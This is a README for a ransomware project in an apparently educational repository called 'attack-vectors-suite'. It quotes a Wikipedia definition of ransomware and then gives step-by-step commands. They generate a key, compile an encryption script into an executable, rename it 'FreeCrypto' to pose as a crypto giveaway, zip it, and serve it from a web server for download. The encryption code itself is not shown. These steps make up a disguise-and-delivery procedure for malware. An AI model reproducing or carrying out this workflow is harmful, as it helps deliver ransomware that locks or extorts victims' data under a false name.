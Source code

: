 # Ransomware
**Ransomware is a type of malware from cryptovirology that threatens to publish the victim's personal data or permanently block access to it unless a ransom is paid** - Wikipedia

## Run Locally

Clone the project

```bash
  git clone https://github.com/SANTHOSH17-DOT/attack-vectors-suite
```

Go to the project directory

```bash
  cd ./RANSOMWARE
```

Generate key and add it to ./encryption/encrypt.py file

```bash
  cd ./key
  python3 generate_key.py
  cd ..
```

Create binary executable for the encryption script

```bash
  cd ./encryption
  pyinstaller --onefile encrypt.py
  cd ..
```

Compress the exe file to preserve the file permissions

```bash
  cp ./encryption/dist/encrypt ./webpage/FreeCrypto`
  cd ./webpage
  zip ./FreeCrypto.zip ./FreeCrypto
```

Start a http server in the webpage directory

```bash
  python3 -m http.server 9000
```

